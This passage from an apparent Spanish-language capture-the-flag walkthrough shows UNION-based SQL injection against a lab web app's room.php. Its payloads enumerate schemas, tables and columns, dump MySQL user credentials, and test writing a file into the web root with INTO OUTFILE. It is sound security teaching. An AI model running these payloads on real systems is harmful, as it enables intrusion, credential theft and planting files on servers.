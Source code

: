 Como vemos que no se puede avanzar mucho con la LFI, vamos a tirar mas del analysis de la base de datos.

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 2,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 3,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema="hotel" limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,table_name,4,5,6,7 from information_schema.tables where table_schema="hotel" limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 0,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 1,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room" limit 2,1-- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_schema="hotel" and table_name="room"-- -
```

#### Aprovechando de la mysql db {-}

Como existe una tabla my_sql probamos a ver si encontramos usuarios y contraseña para esta base de datos.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,group_concat(User,0x3A,Password),4,5,6,7 from mysql.user -- -
```

Vemos que existe el usuario DBAdmin con un hash de contraseña, si tiramos de Rainbow Tables como [CrackStation](https://crackstation.net/) vemos la contraseña
en texto claro.

Teniendo esto en cuenta, podriamos aprovechar de connectarnos a la routa 
```bash
 /phpmyadmin/ 
```
 para lanzar commandos.


#### Using SQL Injection para crear ficheros {-}

Mirando las columnas de la tabla **hotel**, nos damos cuenta que no hay informaciones relevante como usuarios o contraseña. Aqui pensamos que los
tiros no van para el mismo camino. Miramos si tenemos capacidad de escritura.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,"Hola esto es una prueba",4,5,6,7 into outfile "/var/www/html/prueba.txt" -- -
```
